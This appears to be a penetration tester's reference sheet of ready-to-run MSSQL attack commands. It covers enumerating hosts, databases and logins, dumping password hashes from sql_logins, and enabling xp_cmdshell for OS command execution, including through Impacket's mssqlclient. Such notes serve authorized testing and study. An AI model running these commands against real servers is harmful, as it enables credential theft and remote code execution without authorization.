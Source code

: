 # Unix Shell

## 04 - Operating System

### 4.1 - Hostname

Enumerate target machine hostname

```
1> SELECT HOST_NAME();
2> go
```

### 4.2 - Version

MSSQL version details

```
1> SELECT @@VERSION;
2> go
```

## 05 - Linked Servers

### 5.1 - Enumerate Linked Servers

```
1> EXEC sp_linkedservers;
2> SELECT * FROM sys.servers;
3> go
```

## 06 - Database

### 6.1 - Current Database

Enumerate current database

```
1> SELECT DB_NAME();
2> go
```

### 6.2 - Retrieve Database

Enumerate all available databases

```
1> SELECT name FROM sys.databases;
2> go

1> SELECT name FROM master.dbo.sysdatabases;
2> go
```

### 6.3 - Relation Names

- Enumerate table names

```
1> SELECT * FROM <database>.INFORMATION_SCHEMA.TABLES;
2> go
```

### 6.4 - Usernames

- Gather all users from MSSQL Database

```
1> SELECT sp.name AS login, sp.type_desc AS login_type, so.password_hash, sp.create_date, sp.modify_date, CASE WHEN sp.is_disabled = 1 THEN 'Disabled' ELSE 'Enabled' END AS STATUS FROM sys.server_principals sp LEFT JOIN sys.sql_logins sl ON sp.principal_id = sl.principal_id WHERE sp.type NOT IN ('G', 'R') ORDER BY sp.name;
2> go
```

- Gather all administrators logins

```
1> SELECT loginname FROM syslogins WHERE sysadmin = 1;
2> go
```

### 6.5 - Hashdump

Dump the hashes from the user accounts

```
1> SELECT name, password_hash FROM master.sys.sql_logins;
2> go
```

### 6.6 - Enable `xp_cmdshell`

Enumerate the xp_cmdshell whatever if it's enabled or not

```
1> SELECT name, CONVERT(INT, ISNULL(value, value_in_use)) AS IsConfigured FROM sys.configurations WHERE name = 'xp_cmdshell';
2> go
```

Enable xp_cmdshell for remote execution

```
1> EXEC sp_configure 'show advanced options', 1;
2> EXEC sp_configure 'xp_cmdshell', 1;
3> RECONFIGURE;
4> go

1> xp_cmdshell 'whoami';
2> go
```

## 02 - Impacket

### 2.1 - Help Menu

```
$ mssqlclient.py -h

SQL> help
```

### 2.2 - Usage

```
$ mssqlclient -db <database> -port 1433 -windows-auth <domain>/<username>:<password>@<IP>
```

### 2.3 - Enable `xp_cmdshell`

```
SQL> enable_xp_cmdshell
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Enumeration/Databases/SQL/MSSQL]]